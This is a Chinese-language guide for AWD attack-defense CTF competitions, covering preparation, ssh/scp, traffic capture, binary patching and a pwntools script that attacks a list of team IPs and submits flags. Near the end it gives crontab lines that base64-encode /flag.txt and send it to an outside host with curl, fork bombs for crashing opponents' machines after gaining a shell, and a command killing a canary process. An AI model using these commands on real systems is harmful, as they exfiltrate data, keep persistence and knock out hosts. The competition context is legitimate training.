






## 充足的资料

awd通常是断网 ~~偷偷开热点~~，所以资料一定要备足。

- **个人笔记**

平常一定会积累不少exp、工具文档（pwntools，gdb，docker，平常也要多看看文档）、各种工具使用方法，比赛前一定要保存到本地。

[pwntools官方文档](https://pwntools.readthedocs.io/en/stable/)


- **ctfwiki**

平常学习也经常会用到，记录了漏洞原理和例题。支持docker起环境。

docker 一键起环境

```
docker run -d --name=ctf-wiki -p 4100:80 ctfwiki/ctf-wiki
```

看一下虚拟机的ip，本机就可以快乐访问了。





- **how2heap**

记录堆利用方法，如果遗忘了一些攻击手法可以快速回忆，不过在awd的时候学可能晚了一点，节奏比较快。。。（但总不能一直吃茶歇把）

```
git clone https://github.com/shellphish/how2heap.git
```


- **收集网上的一些awd脚本**

web相对来说准备的脚本多一点，pwn的话主要就是批量提交脚本、流量监控脚本。


## awd比赛规则

附上太湖杯awd比赛规则，比赛规则大体类似，具体的记分规则和用户权限可能会有所改变。






## 工具准备

- **xshell、xftp**

远程登陆&传文件


ssh命令

 假定你要以用户名user，登录远程主机host，只要一条简单命令就可以了。

```
ssh pika@192.168.0.111 
```

但一般来说awd需要指定端口，常见2222，需要后面加参数-p 2222


scp命令

**1.本地复制到远程**

scp远程传文件

指令格式

```
scp local_file remote_username@remote_ip:remote_folder 
或者 
scp local_file remote_username@remote_ip:remote_file 
或者 
scp local_file remote_ip:remote_folder 
或者 
scp local_file remote_ip:remote_file 
```

- 第1,2个指定了用户名，命令执行后需要再输入密码，第1个仅指定了远程的目录，文件名字不变，第2个指定了文件名；
- 第3,4个没有指定用户名，命令执行后需要输入用户名和密码，第3个仅指定了远程的目录，文件名字不变，第4个指定了文件名；

示例

```
scp /home/space/music/1.mp3 root@www.runoob.com:/home/root/others/music 
scp /home/space/music/1.mp3 root@www.runoob.com:/home/root/others/music/001.mp3 
scp /home/space/music/1.mp3 www.runoob.com:/home/root/others/music 
scp /home/space/music/1.mp3 www.runoob.com:/home/root/others/music/001.mp3 
```


复制目录命令格式

```
scp -r local_folder remote_username@remote_ip:remote_folder 
或者 
scp -r local_folder remote_ip:remote_folder 
```

- 第1个指定了用户名，命令执行后需要再输入密码；
- 第2个没有指定用户名，命令执行后需要输入用户名和密码；

示例

```
scp -r /home/space/music/ root@www.runoob.com:/home/root/others/ 
scp -r /home/space/music/ www.runoob.com:/home/root/others/ 
```


**2.从远程复制到本地**

从远程复制到本地，只要将从本地复制到远程的命令的后2个参数调换顺序即可，如下实例

```
scp root@www.runoob.com:/home/root/others/music /home/space/music/1.mp3 
scp -r www.runoob.com:/home/root/others/ /home/space/music/
```


**ps**

 如果远程服务器防火墙有为scp命令设置了指定的端口，我们需要使用 -P 参数来设置命令的端口号，命令格式如下： 

```
#scp 命令使用端口号 4588
scp -P 4588 remote@www.runoob.com:/usr/local/sin.sh /home/administrator
```


- **wireshark**

流量分析工具，有些比赛可以提供抓包服务，这时候如何根据别人的攻击流量快速复现别人的exp（~~在大佬屁股后面喝汤~~）就十分要紧了。

**tcpdump**抓取攻击流量

```
tcpdump -i 网卡 -s 0 -w 1.pcap port 端口号
```

通过追踪tcp流来分析流量




## 比赛起手式

**1.一定要准备确保自己有网线插口，并且是ok的，可以买一个转接口**！！！

**2.ssh未发放前，提前开好虚拟机，可以起个ctfwiki的docker，熟悉一下赛制，查看是否提供流量捕获，如果提供流量捕获，可以采取一人攻一人修题+流量分析，根据主办方给的api书写批量提交脚本，写好交互。（熟悉一下requests库）**

传递URL参数

?+键值对

```python
response1 = requests.get("http://httpbin.org/get?key1=value1")
print(response1.url)
#http://httpbin.org/get?key1=value1
```

 requests提供了params关键字参数来传递参数   

```python
parameter = {
            "key1":"value1",
            "key2":"value2"
            }
response2 = requests.get("http://httpbin.org/get",params = parameter)
print(response2.url)
# http://httpbin.org/get?key1=value1&key2=value2

```

 还可以将一个列表作为值传入 

```python
parameter = {
            "key1":"value1",
            "key2":["value21","value22"]
}
response3 = requests.get("http://httpbin.org/get",params = parameter)
print(response3.url)
# http://httpbin.org/get?key1=value1&key2=value21&key2=value22

```


示例

```python
import requests

def submit(flag):	
	url = 'https://ctf.bugku.com/awd/submit.html?token=95e0ab88dcae793ac13ba2bfa839fd16&flag='+flag
	ct = requests.post(url)
	print ct.text
f = 'flag{f828ae331b6cb250015373c75e47e968}'
submit(f)
```

**3.ssh发放后，查看ssh是否为弱密码，若发现是弱密码，及时更改密码！！！**

**4.备份赛题、ld、libc文件！！！（ld和libc必须是配套的）**

**5.上通防，根据情况**


## patch修题

修题是有风险的，修的不好check就过不了而且还有被打的风险

推荐参考文章 [CTF线下赛中常用的PWN题patch方法 | p4nda's blog](http://p4nda.top/2018/07/02/patch-in-pwn/) 

**简单patch-----ida插件keypatch**


**1.栈溢出类型修补，修改read第三个参数**


save to file

edit->Patch program->Apply patches in to file... 


**2.格式化字符串类型修补**

printf改puts




**3.堆题暴力修题（目前来看不是很推荐，很多主办方也慢慢意识到这个问题了）**

看到free通通nop




**使用工具lief添加逻辑代码**

具体见参考文章


**ps**

patch之后的文件上传后要注意权限的问题，需要有可执行权限

 pkill -kill -u username 


## 通防

看了网上不少通防的资料，感觉都不尽人意，感觉都太容易被check到了，所以自己写了一个patch，单纯是修改题目的，沙箱规则可以diy。


## 自动化

队伍一多要是还是手交那基本一轮还没交完就下一轮了。

示例

```python
from pwn import*
import requests
def submit(flag):	
	url = 'https://ctf.bugku.com/awd/submit.html?token=95e0ab88dcae793ac13ba2bfa839fd16&flag='+flag
	ct = requests.post(url)
	if ct.text.find('Flag')!=-1:
		print 'ok!!!!'

flags = []
def pwn(i):
	p = remote('192-168-1-'+str(i)+'.awd.bugku.cn',9999)
    ...
    ...
    ...
	flag = p.recv()
	flags.append(flag)
	submit(flag)
	print flag
	p.close()
	#p.interactive()
ip = [13, 16, 21, 25, 29, 30, 37, 56, 61, 62, 65, 69, 71, 74, 79, 89, 90, 94, 97, 101, 106, 110, 126, 135, 143, 144, 147, 148, 157, 165, 168, 169, 172, 175, 180, 182, 187, 192, 195, 196, 210, 212, 213, 217, 219, 223, 232, 234, 235, 241, 247]
ip.reverse()
for i in ip:
	try:
		pwn(i)
	except:
		pass
for i in flags:
	print i


```


## crontab定时任务


```bash
* * * * * FLAG=`cat /flag.txt | base64` && curl http://192.168.187.128/?flag=${FLAG}
* * * * * FLAG=`curl http://192.168.187.128/get_flag | base64` && curl http://192.168.187.128/?flag=${FLAG}
```


## 搅屎

拿下shell后可以试试能不能搅屎，消耗资源，直接宕机。（别在自己机子上试！）

fork炸弹

```
:(){ :|: & };:
```

```
b(){ b|b& };b
```


awd搅屎指南

[https://trello.com/b/avr2o8x8/%E7%BA%BF%E4%B8%8Bawd](https://trello.com/b/avr2o8x8/%E7%BA%BF%E4%B8%8Bawd)


kill -9 $(pgrep easycanary)